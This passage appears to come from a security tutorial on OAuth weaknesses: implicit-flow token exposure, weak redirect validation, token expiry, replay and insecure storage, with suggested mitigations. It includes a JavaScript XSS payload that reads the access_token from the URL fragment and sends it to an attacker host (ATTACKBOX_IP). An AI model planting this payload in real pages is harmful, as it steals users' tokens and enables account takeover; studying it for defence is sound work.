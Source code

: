 

### Implicit Grant Flow

In the implicit grant flow, tokens are directly returned to the client via the browser without requiring an intermediary authorization code. This flow is primarily used by single-page applications and is designed for public clients who cannot securely store client secrets. However, this flow has inherent vulnerabilities:

* **Exposing Access Token in URL**: The application redirects the user to the OAuth authorization endpoint, which returns the access token in the URL fragment. Any script running on the page can easily access this fragment.
* **Inadequate Validation of Redirect URIs**: The OAuth server does not adequately validate the redirect URIs, allowing potential attackers to manipulate the redirection endpoint.
* **No HTTPS Implementation**: The application does not enforce HTTPS, which can lead to token interception through man-in-the-middle attacks.
* **Improper Handling of Access Tokens**: The application stores the access token insecurely, possibly in `localStorage` or `sessionStorage`, making it vulnerable to XSS attacks.

XSS Payload to steal the access\_token from URL parameter:

```javascript
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
```



### Insufficient Token Expiry

Access tokens with long or infinite lifetimes pose a significant security risk. If an attacker obtains such a token, they can access protected resources indefinitely. Implementing short-lived access and refresh tokens helps mitigate this risk by limiting the window of opportunity for attackers.

### Replay Attacks

Replay attacks involve capturing valid tokens and reusing them to gain unauthorized access. Attackers can exploit tokens multiple times without mechanisms to detect and prevent token reuse. Implementing `nonce` values and `timestamp` checks can help mitigate replay attacks by ensuring each token is used only once.

### Insecure Storage of Tokens

Storing access tokens and refresh tokens insecurely (e.g., in local storage or unencrypted files) can lead to token theft and unauthorized access. Using secure storage mechanisms, such as secure cookies or encrypted databases, can protect tokens from being accessed by malicious actors.
